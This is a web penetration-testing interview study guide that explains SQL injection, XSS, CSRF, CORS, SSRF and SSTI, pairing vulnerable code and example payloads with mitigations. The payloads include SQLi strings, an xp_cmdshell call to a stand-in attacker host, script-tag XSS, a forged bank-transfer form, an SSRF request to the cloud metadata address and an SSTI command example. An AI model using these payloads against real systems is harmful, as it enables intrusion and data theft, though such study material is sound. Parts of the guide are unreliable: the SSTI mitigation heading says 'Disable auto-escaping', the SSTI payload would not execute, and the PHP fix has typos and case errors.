

# Web Pentest Interview top topics

## 1. SQL Injections

<figure><figcaption></figcaption></figure>

Definition: SQLi is a technique where a user can provide a malicious input and make the database execute un-intended SQL query often displaying unauthorized output.

**Vulnerable Code Example in Python:**

```python
import sqlite3

user_id = input("Enter your User ID: ")
query = f"SELECT * FROM users WHERE id = {user_id}"
db.execute(query)
```

In the code above, the user\_id parameter is user-controlled and there is no security mechanism deployed to fix this.

For all the following categories, the code above is considered to be the vulnerable code (except Union based) and then one possible SQL injection payload example is given.

#### 1. **In-band SQL Injection**

In-band SQLi is a direct method where the attacker receives immediate feedback in the application response, often as an error message or visible data.

**a. Error-based SQL Injection**

This technique exploits error messages returned by the database to gather information about the database structure. By forcing the application to generate an error, the attacker can extract information such as database type, version, and table structure.

If the user enters `1 OR 1=1--`, the query becomes:

```sql
SELECT * FROM users WHERE id = 1 OR 1=1--
```

If there’s an error in the syntax, details about the database schema may be exposed in the error message.

**b. Union-based SQL Injection**

This method involves using the `UNION` SQL operator to combine the results of multiple queries. By injecting a `UNION` statement, attackers can retrieve data from other tables within the database.

**Vulnerable Code Example:**

```python
user_id = input("Enter your User ID: ")
query = f"SELECT name, email FROM users WHERE id = {user_id}"
db.execute(query)
```

If the user enters `1 UNION SELECT username, password FROM admin--`, the query becomes:

```sql
SELECT name, email FROM users WHERE id = 1 UNION SELECT username, password FROM admin--
```

This retrieves the usernames and passwords from the `admin` table, which would not normally be accessible.

#### 2. Blind SQLi

Blind SQLi is used when the application does not return detailed error messages but allows attackers to infer information based on application behavior.

**a. Boolean-based SQL Injection**

The attacker sends SQL queries to the server that result in either `true` or `false`. Based on the response, they deduce whether a condition is true or false, allowing them to extract data by testing various conditions.

If the user enters `1 AND 1=1`, the query becomes:

```sql
SELECT * FROM users WHERE id = 1 AND 1=1
```

This will likely return data since `1=1` is true. But if the user enters `1 AND 1=2`, it returns nothing, since `1=2` is false. By using conditional statements, the attacker can deduce information about the database.

**b. Time-based SQL Injection**

This method is used when the attacker cannot see database output but can observe time delays. The attacker can use SQL commands that cause time delays, inferring information based on the response time.

If the user enters `1; WAITFOR DELAY '0:0:5'--`, the query becomes:

```sql
SELECT * FROM users WHERE id = 1; WAITFOR DELAY '0:0:5'--
```

The database will pause for 5 seconds before responding. If the application takes longer to respond, it confirms that the injected SQL was executed, allowing attackers to gain insight into the system.

#### 3. Out-of-band SQLi

Out-of-band SQLi is less common and relies on the database server's ability to make external network connections, allowing the attacker to receive data through other channels, such as HTTP requests or DNS queries. This is effective when direct interaction isn’t possible or if error messages and time delays are unavailable.

If the database supports external calls, the payload can be:

```sql
1; EXEC xp_cmdshell 'ping attacker-server.com'--
```

This query would instruct the database to ping the attacker’s server, confirming vulnerability by sending an external request.

### Mitigations

1.  Parameterization - It is the most effective type of mitigation for SQL injections. **Parameterization** is a technique used in programming, particularly in database interactions, to separate SQL code from user input. Instead of directly embedding user input into SQL queries, parameterization involves using placeholders (parameters) in the SQL query, where the actual values are bound to these placeholders at runtime. This practice ensures that user input is treated strictly as data, not as part of the SQL command.\
    \
    **Mitigated Code using Parameterized Query:**

    ```python
    import sqlite3

    # Establish database connection
    db = sqlite3.connect('example.db')
    cursor = db.cursor()

    # Use parameterized queries to prevent SQL Injection
    user_id = input("Enter your User ID: ")

    # The `?` placeholder ensures that `user_id` is treated as data, not code
    cursor.execute("SELECT * FROM users WHERE id = ?", (user_id,))

    # Fetch results
    results = cursor.fetchall()
    for row in results:
        print(row)

    # Close database connection
    db.close()
    ```

    In this code, `user_id` is passed as a parameter to the `execute` function. This approach prevents any injected SQL commands from being executed because the input is strictly treated as data.

```php
Another mitigation example in PHP

<?php

$stmt = $conn->prepare("seleect * from products where category = ? AND released = 1");

//bind parameters. "s" specifies the string type/

$stmt->bind_param("s",$_GET['category']);
$stmt->execute();

$RESULT = $STMT->GET_RESULT();

?>

```

This way input is strictly treated as a string and not as part of the SQL query. Any invalid input would give out an error and stop. No extra info would be leaked.


2. Input sanitization - Using this, a dev can sanitized any illegal characters like " ' " from the user provided input.
3. Input validation - Using this, a dev can make sure that only, for example, digits are input from the user. If any other characters are input, it will throw an error.
4. Principle of least privilege - Even if DB gets compromised, principle of least privilege will make sure that the damage is very minimal since the current DB user is of low priv so it can't access critical data that might be there in other DB which requires high privilege.

***

## 2. Cross Site Scripting

<figure><figcaption></figcaption></figure>


#### 1. **Reflected XSS**

Reflected XSS occurs when user input is immediately "reflected" back in the response. This often happens when data is passed via URL parameters or form submissions, and the application directly renders it in the HTML without sanitization.

**Example Scenario**: An attacker crafts a URL with malicious JavaScript, and when a user clicks it, the malicious code is executed in their browser.

**Vulnerable Code Example**

Consider a simple web page that reflects a URL parameter directly onto the page:

```javascript
const urlParams = new URLSearchParams(window.location.search);
const searchQuery = urlParams.get("query");

document.write("Search results for: " + searchQuery);
```

If a user visits a URL like:

```php-template
https://example.com/search?query=<script>alert('XSS');</script>
```

The output of `document.write()` would be:

```html
Search results for: <script>alert('XSS');</script>
```

This causes the browser to execute the script, showing an alert.

**Mitigation for Reflected XSS**

To prevent reflected XSS, always **sanitize** user input and **escape HTML** before displaying it. For example:

```javascript
const urlParams = new URLSearchParams(window.location.search);
const searchQuery = urlParams.get("query");

// Sanitize by escaping HTML characters
function escapeHTML(input) {
  const div = document.createElement("div");
  div.innerText = input;
  return div.innerHTML;
}

document.write("Search results for: " + escapeHTML(searchQuery));
```

Using `escapeHTML` here converts `<script>` tags into plain text instead of executable HTML.

#### 2. **Stored XSS**

Stored XSS occurs when malicious input is stored on the server (e.g., in a database) and then displayed to other users without proper sanitization. This type of XSS can affect multiple users, as the injected code is persistent.

**Example Scenario**: An attacker posts a comment containing a malicious script, and every user who views the comment page will unknowingly execute the attacker’s code.

**Vulnerable Code Example**

Imagine a blog application where users can post comments, and these comments are stored and displayed to other users.

```javascript
// Assume `comment` is retrieved from the database and is directly inserted into the HTML
const comment = "<script>alert('XSS');</script>";  // Malicious comment from the attacker
document.getElementById("comments").innerHTML += comment;
```

When the page is rendered, this code will execute the malicious script for all users who view it.

**Mitigation for Stored XSS**

To prevent stored XSS, sanitize input before storing it and encode output before displaying it:

```javascript
function escapeHTML(input) {
  const div = document.createElement("div");
  div.innerText = input;
  return div.innerHTML;
}

// Example of escaping the stored comment
const comment = "<script>alert('XSS');</script>"; // Untrusted input from database
document.getElementById("comments").innerHTML += escapeHTML(comment);
```

Here, `escapeHTML` ensures that the comment will display as plain text, not as executable code.

#### 3. DOM XSS

**DOM-based XSS** involves vulnerabilities where untrusted data from a source in the browser is manipulated and then injected into a potentially dangerous sink. Here’s how these terms break down:

* **Source**: This is where the untrusted data originates. In DOM-based XSS, sources are typically browser properties like `document.location`, `document.referrer`, `document.cookie`, `window.location.hash`, etc. These properties can hold user-controlled data, such as URL parameters or hash fragments, which an attacker could manipulate.
* **Sink**: This is where the data is injected or used within the DOM in a way that may cause JavaScript code execution. Sinks are methods that write to the DOM or execute JavaScript, like `innerHTML`, `outerHTML`, `document.write()`, `eval()`, `setTimeout()`, or `setInterval()`. Using untrusted data in these sinks without proper sanitization or escaping can lead to code execution.

In a **DOM-based XSS attack**, an attacker controls data in a source (like the URL), which the JavaScript in the page then passes to a sink without sanitization. Let’s look at an example in terms of source and sink.

```javascript
// Source: data comes from the URL's hash
const hash = window.location.hash.substring(1);  // "hash" is a source

// Sink: hash is inserted into the DOM via innerHTML, which executes HTML/JavaScript
document.getElementById("message").innerHTML = "Message: " + hash;
```

* **Source**: Here, `window.location.hash` is the source. It contains the fragment part of the URL (anything after `#`), which is user-controlled. An attacker could modify this value in the URL.
* **Sink**: The `innerHTML` property of the `message` element is the sink. When `hash` is directly assigned to `innerHTML`, it allows any HTML or JavaScript code in `hash` to be rendered and executed, resulting in an XSS vulnerability.

**How an Attack Works**

If a user navigates to:

```php-template
https://example.com/#<script>alert('XSS');</script>
```

The `window.location.hash` will contain `<script>alert('XSS');</script>`. This value is then passed into `innerHTML`, causing the script to execute, showing an alert with the message "XSS".

Safe code example: We can use "textContent" instead of "innerHTML"

`const hash = window.location.hash.substring(1); // Source`

`// Use textContent instead of innerHTML to avoid XSS risks document.getElementById("message").textContent = "Message: " + hash; // Safer sink`

### Mitigations

1. Input sanitization by escaping HTML (\<script> for eg:), Javascript (onclick(), alert() for eg:) and URL characters(space to %20 for example and < and > to %3C etc.) and converting that to text like so-

```javascript
javascriptCopy codefunction encodeHTML(input) {
  const div = document.createElement("div");
  div.textContent = input;
  return div.innerHTML;
}
```

#### Usage

```javascript
javascriptCopy codeconst userInput = "<script>alert('XSS');</script>";
const safeInput = encodeHTML(userInput);
console.log(safeInput); // Output: &lt;script&gt;alert(&#39;XSS&#39;);&lt;/script&gt;
```

2. Input sanitizaztion - You can make sure that the input going in doesn't have special characters that are dangerous like so where all dangerous characters are simply removed:\
   function sanitizeInput(input) \
   { \
   return input.replace(/<\[^>]\*>?/gm, ""); // Removes all HTML tags \
   }
3.  Content Security Policy - CSP is implemented by adding a **Content-Security-Policy** HTTP header or a `<meta>` tag in HTML. This header instructs the browser to enforce specific rules about what types of content can be loaded and from where.\


    **Example 1: Basic CSP to Allow Same-Origin Resources Only**

    In this example, CSP restricts all content (scripts, styles, images, etc.) to load only from the same origin (i.e., the website's own domain) using `default-src 'self'`.

    ```http
    Content-Security-Policy: default-src 'self'
    ```

    **Explanation**:

    * `'self'` means only load resources from the same domain.
    * No external content from other domains (like CDNs or third-party scripts) will be allowed.
    *   This setup is effective for static websites or applications with no need for third-party resources.\
        \


        **Example 2: Allowing Scripts from Specific Sources**

        If you need to load JavaScript from specific sources, you can use `script-src` to allow them while still blocking all other sources.

        ```http
        Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com
        ```

        **Explanation**:

        * `default-src 'self'` restricts all resources by default to the same origin.
        * `script-src 'self' https://trusted-cdn.com` allows scripts only from the same origin and `https://trusted-cdn.com`.
        * Any script from sources other than `self` or `https://trusted-cdn.com` will be blocked.
4. Disallow inline Javascript. If it is nececssary use CSP

***

## 3. CSRF

Before understanding CSRF, here is a quick read on tabbed browsing-

**Tabbed browsing** allows users to open multiple web pages within a single browser window, each page in its own tab. This feature, which is now standard in all major browsers, improves user experience by letting people switch between sites or applications without opening new browser windows.

While tabbed browsing itself is convenient, it introduces potential security concerns, especially related to **Cross-Site Request Forgery (CSRF)**

**Definition: Cross-Site Request Forgery (CSRF)** is an attack that tricks a user into unknowingly submitting actions on a website they are authenticated on. This vulnerability exploits the fact that web browsers automatically include cookies and other credentials (like session tokens) with requests, so if a user is logged into a site, any requests they make from the browser will carry those credentials.

In a CSRF attack, an attacker crafts a malicious request (such as a form submission or a link) to a target website and then tricks the victim into executing that request by visiting a specially crafted webpage. Because the request appears to come from the authenticated user, the target server processes it as a legitimate action.

#### How CSRF Works

1. **Victim Authentication**: The victim logs into a website (e.g., a banking app) and maintains an active session with a session cookie.
2. **Malicious Request**: The attacker crafts a malicious request that performs an action on the victim’s account (e.g., transferring money or changing the email address) and embeds it in a different website or email.
3. **User Interaction**: The victim unknowingly visits the attacker’s webpage or clicks a link in an email, triggering the crafted request.
4. **Execution with Victim’s Credentials**: Because the victim is authenticated, the request is sent with their session cookie, so the server processes it as if the victim submitted it directly.

#### Example of a CSRF Attack

Imagine a banking website that allows users to transfer money with a simple request like this:

```http
POST /transfer HTTP/1.1
Host: bank.example.com
Cookie: session=abc123
Content-Type: application/x-www-form-urlencoded

amount=1000&recipient=legitimate_account
```

An attacker could craft a malicious HTML form like this:

```html
<form action="https://bank.example.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="recipient" value="attacker_account">
  <input type="submit" value="Click me for a surprise!">
</form>
```

If the victim is logged into their bank account and unknowingly submits this form (or the form auto-submits through JavaScript), the bank will transfer $1000 to the attacker's account, thinking the victim intended to do this.

### Mitigations

#### 1. **CSRF Tokens**

A **CSRF token** is a unique, unpredictable value generated by the server and included in web forms or requests. When the form is submitted, the server checks that the token matches the one it issued for the session, verifying that the request is legitimate.

* **How It Works**:
  * The server generates a CSRF token and includes it as a hidden field in each form or in a custom HTTP header for AJAX requests.
  * When the form is submitted, the server checks the token against the one it issued.
  * If the token is missing or incorrect, the server rejects the request.
*   **Example**: In HTML:

    ```html
    <form action="/transfer" method="POST">
      <input type="hidden" name="csrf_token" value="generated_csrf_token">
      <input type="text" name="amount">
      <input type="text" name="recipient">
      <input type="submit" value="Transfer">
    </form>
    ```

#### 2. **Same-Site Cookies**

The **SameSite cookie attribute** restricts cookies from being sent with cross-site requests, which is particularly useful for protecting against CSRF. Setting cookies to `SameSite=Strict` or `SameSite=Lax` ensures that cookies are not sent with cross-origin requests, effectively blocking CSRF.

* **How It Works**:
  * `SameSite=Strict`: The browser does not send the cookie with requests that originate from external sites.
  * `SameSite=Lax`: The browser only sends the cookie for top-level navigation (e.g., clicking a link) but not for embedded requests (like images or AJAX calls).
*   **Example**:

    ```http
    httpCopy codeSet-Cookie: session=abc123; SameSite=Strict; Secure
    ```

    This setting instructs the browser to only send the cookie with requests from the same site, not cross-site requests, thereby reducing CSRF risk.

***


## 4. Same Origin Policy

The same-origin policy is a web browser security mechanism, automatically deployed by modern browsers, that aims to prevent websites from attacking each other.

The same-origin policy restricts scripts on one origin from accessing data from another origin. An origin consists of a URI scheme, domain and port number. For example, consider the following URL:

`http://normal-website.com/example/example.html`

This uses the scheme `http`, the domain `normal-website.com`, and the port number `80`. The following table shows how the same-origin policy will be applied if content at the above URL tries to access other origins:

| URL accessed                              | Access permitted?                  |
| ----------------------------------------- | ---------------------------------- |
| `http://normal-website.com/example/`      | Yes: same scheme, domain, and port |
| `http://normal-website.com/example2/`     | Yes: same scheme, domain, and port |
| `https://normal-website.com/example/`     | No: different scheme and port      |
| `http://en.normal-website.com/example/`   | No: different domain               |
| `http://www.normal-website.com/example/`  | No: different domain               |
| `http://normal-website.com:8080/example/` | No: different port\*               |

\*Internet Explorer will allow this access because IE does not take account of the port number when applying the same-origin policy.

However, developers can control some aspects of SOP behavior, such as:

1. **Cross-Origin Resource Sharing (CORS)**: If legitimate cross-origin requests are necessary, servers can selectively allow them by configuring CORS headers. CORS allows developers to relax SOP restrictions for certain requests while maintaining security.
2. **Content Security Policy (CSP)**: CSP enables developers to define trusted sources for scripts, styles, and other resources. While CSP doesn’t change SOP rules, it adds an additional layer of control over resource loading.

Due to legacy requirements, the same-origin policy is more relaxed when dealing with cookies, so they are often accessible from all subdomains of a site even though each subdomain is technically a different origin. You can partially mitigate this risk using the `HttpOnly` cookie flag.

***

## 5. Cross Origin Resource Sharing (CORS)

**Cross-Origin Resource Sharing (CORS)** is a security feature implemented by web browsers that allows controlled access to resources on a web server from a different origin (domain, protocol, or port). By default, the **Same-Origin Policy (SOP)** restricts web pages from making requests to a different origin, which helps prevent unauthorized data access. However, sometimes legitimate cross-origin requests are necessary, such as when a web application needs to fetch data from a public API hosted on another domain.

<figure><figcaption></figcaption></figure>

CORS enables servers to relax the SOP by including specific HTTP headers in the response that grant permission for cross-origin requests from trusted domains.

Imagine you have a frontend application hosted on `https://app.example.com` and a backend API hosted on `https://api.example.com`. You want the frontend to access the backend API securely but prevent other websites from making requests to it.

**Proper CORS Configuration on `https://api.example.com`**:

```http
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type
```

**Explanation**:

* `Access-Control-Allow-Origin: https://app.example.com`: Only allows requests from `https://app.example.com` on https://api.example.com. (App's API backend)
* `Access-Control-Allow-Methods: GET, POST`: Limits the allowed HTTP methods.
* `Access-Control-Allow-Headers: Content-Type`: Ensures only necessary headers are allowed.

With this configuration, if an attacker’s site at `https://malicious.com` tries to make a request to `https://api.example.com`, the request will fail because the origin `https://malicious.com` is not allowed by CORS. This way, only your trusted application can interact with the backend.

### Misconfiguration example

Now let’s say the API is misconfigured to allow any origin by setting a wildcard (`*`) in `Access-Control-Allow-Origin`, like this:

```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET, POST, DELETE, PUT
Access-Control-Allow-Headers: *
```

**Explanation**:

* `Access-Control-Allow-Origin: *`: Allows requests from any origin.
* `Access-Control-Allow-Methods: GET, POST, DELETE, PUT`: Allows all HTTP methods, including potentially destructive ones.
* `Access-Control-Allow-Headers: *`: Permits any header, which could allow additional sensitive information to be exposed.

**Risk**: With this configuration, any website, including `https://malicious.com`, can make requests to `https://api.example.com` and perform actions (like `DELETE` or `PUT`) if the user is authenticated and has an active session. This could lead to **data theft, unauthorized modifications, or other malicious actions** performed on behalf of the user.

### Proper Configuration Strategies:

#### Example of a Secure CORS Configuration

Here’s a secure CORS configuration for a backend API (`https://api.example.com`) used by a trusted frontend (`https://trustedapp.example.com`):

```http
Access-Control-Allow-Origin: https://trustedapp.example.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 600
```

#### Summary of Proper CORS Configuration Strategies

1. **Restrict allowed origins to trusted sources**.
2. **Limit HTTP methods** to only those necessary. (GET, POST). Don't use PUT, DELETE
3. **Specify required headers only** and avoid wildcards.
4. **Use `Access-Control-Allow-Credentials` cautiously** with specific origins. The `Access-Control-Allow-Credentials` header allows cookies or other credentials to be included in cross-origin requests. If you enable it, be cautious and restrict `Access-Control-Allow-Origin` to specific origins.
5. **Set reasonable cache durations** for preflight responses.
6.  **Combine with CSP** for additional security.&#x20;

    To further control cross-origin requests, you can complement CORS with a **Content Security Policy (CSP)**. CSP allows you to restrict the domains that can execute scripts or load resources.

    **Example CSP Header**:

    ```http
    Content-Security-Policy: script-src 'self' https://trustedapp.example.com
    ```

    **Best Practice**:

    * Use CSP to control where scripts, images, and other resources can be loaded from.
    * Combining CSP with CORS provides an additional layer of security, especially useful for mitigating the effects of XSS attacks.
7. **Review and update policies** regularly to keep security tight.

***

## 6. Server Side Request Forgery (SSRF)

**Server-Side Request Forgery (SSRF)** is a web vulnerability that occurs when an attacker tricks a server into making HTTP requests to unintended locations on behalf of the attacker. This can happen when a server allows users to specify URLs or IPs that the server will then fetch or process, but it fails to properly validate or restrict those requests.

#### How SSRF Works

In an SSRF attack, an attacker exploits an application feature that makes HTTP requests based on user input, like fetching an image URL or querying an API. By manipulating this input, the attacker can make the server send requests to arbitrary locations, which can result in a range of malicious actions.

#### Example Scenario

Imagine a web application that accepts a URL as input to fetch and display an image. An attacker could exploit this feature as follows:

1. **Legitimate Request**: A user submits a URL, such as `https://example.com/image.jpg`, and the server fetches the image from that URL and displays it.
2. **Malicious Request**: An attacker submits a URL to an internal server, such as `http://localhost/admin`, which the server might use to access sensitive internal resources, including private IP ranges or internal APIs that are otherwise inaccessible from the outside.

By tricking the server into accessing these resources, an attacker could:

* Access private, internal data.
* Exfiltrate information from internal services.
* Manipulate requests to other APIs or endpoints on behalf of the server.

#### Vulnerable SSRF Code Example

Suppose we have a Node.js/Express application with an endpoint that retrieves images from a URL specified by the user.

```javascript
const express = require('express');
const axios = require('axios');
const app = express();

app.use(express.json());

app.post('/fetch-image', async (req, res) => {
    const imageUrl = req.body.url;

    try {
        const response = await axios.get(imageUrl); // Directly fetches the user-provided URL
        res.send(response.data);
    } catch (error) {
        res.status(500).send("Failed to fetch image");
    }
});

app.listen(3000, () => console.log('Server running on http://localhost:3000'));
```

#### Why This Code is Vulnerable to SSRF

In this code:

1. The endpoint `/fetch-image` accepts a URL in the request body (`req.body.url`).
2. It then directly makes a request to this URL using `axios.get(imageUrl)` without any validation.

**How an Attacker Could Exploit This**: An attacker could submit a request to `/fetch-image` with a URL pointing to a sensitive internal service or an IP restricted to the server’s network, such as `http://localhost/admin` or `http://169.254.169.254/latest/meta-data/` (an endpoint used by cloud providers like AWS to access metadata).

#### Example Exploit Request

If an attacker wants to access an internal service running on `localhost`, they could craft the following request:

```http
POST /fetch-image HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{
    "url": "http://localhost/admin"
}
```

#### Types of SSRF Attacks

1. **Basic SSRF**: The attacker directly specifies URLs to internal services or sensitive endpoints.
2. **Blind SSRF**: The attacker doesn’t directly see the response but infers details through indirect behaviors, such as timing delays or error messages.

### Mitigations

1.  **Whitelist Allowed Domains**:

    * Restrict URLs to trusted domains or IP ranges.
    * Only allow requests to predefined, trusted destinations (e.g., `https://images.example.com`).

    ```pseudo
    if (!url.startsWith("https://trusted-domain.com")) {
        return error("Invalid URL");
    }
    ```
2.  **Restrict Internal IP Ranges**:

    * Block requests to private IP ranges (e.g., `127.0.0.1`, `10.0.0.0/8`, `192.168.0.0/16`), as these IPs often correspond to internal networks.

    ```pseudo
    // Pseudo-code for IP validation
    if (isInternalIp(url)) {
        return error("Access to internal IPs is not allowed");
    }
    ```
3. **Use Network Filtering and Firewalls**:
   * Set up firewall rules to prevent the application server from accessing internal-only services or specific network segments.
   * Isolate servers so they cannot access sensitive internal systems that should not be publicly accessible.

***

## 7. SSTI

* SSTI typically arises when user input is inserted into templates without proper validation or sanitization, allowing the attacker to manipulate the template syntax.
* **Exploited Components**: Template engines such as Jinja2 (Python), Twig (PHP), and Velocity (Java) are popular targets for SSTI. These engines support advanced syntax for dynamic content rendering, which attackers can exploit.
* **Impact**: By injecting malicious template code, an attacker can gain access to server-side functions, execute arbitrary code, and retrieve sensitive data from the server.

#### Example of SSTI

Consider an application using the Python Jinja2 template engine. If the user input is rendered directly in the template without sanitization, an attacker could inject template expressions to execute server-side commands.

**Vulnerable Code Example**

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/greet')
def greet():
    name = request.args.get("name", "")
    template = f"Hello, {name}!"
    return render_template_string(template)
```

If the user inputs `{{ 7 * 7 }}`, the output would render as "Hello, 49!". However, more dangerous expressions like `{{ '__import__("os").system("ls")' }}` could execute commands on the server, exposing sensitive files and data.

### Mitigations

1.  Disable auto-escaping.&#x20;

    Most template engines offer **auto-escaping** by default, which automatically escapes variables when inserted into HTML, preventing HTML injection and SSTI in many cases. Ensure this feature is enabled and use it consistently.

    * **Example**: In Jinja2, avoid disabling auto-escaping, as it will escape any HTML, preventing SSTI.

    **Example**:

    ```html
    <!-- greet.html -->
    <p>Hello, {{ name }}</p>  <!-- Jinja2 auto-escapes `name`, preventing SSTI -->
    ```
2.  Use variables and send them to static HTML pages rather than parsing Input directly within templates.\


    **Example** (Python with Jinja2):

    ```python
    # Instead of injecting user input directly into the template string
    name = request.args.get("name", "")
    template = f"Hello, {name}!"  # Unsafe if `name` contains template syntax

    # Use template variables, which Jinja2 escapes by default
    render_template("greet.html", name=name)
    ```

***

## Q1) Difference between CSRF and CORS?

#### Summary Table

| Feature        | CSRF                                                                         | CORS                                                   |
| -------------- | ---------------------------------------------------------------------------- | ------------------------------------------------------ |
| **Definition** | An attack that tricks a user into making requests as if they were legitimate | A security control to restrict cross-origin requests   |
| **Focus**      | Exploits user’s credentials via automatic cookie sending                     | Manages access control for cross-origin requests       |
| **Purpose**    | Prevent unauthorized actions on behalf of an authenticated user              | Control which domains can access resources on a server |
| **Mitigation** | CSRF tokens, SameSite cookies, re-authentication                             | CORS headers, specify trusted origins and HTTP methods |

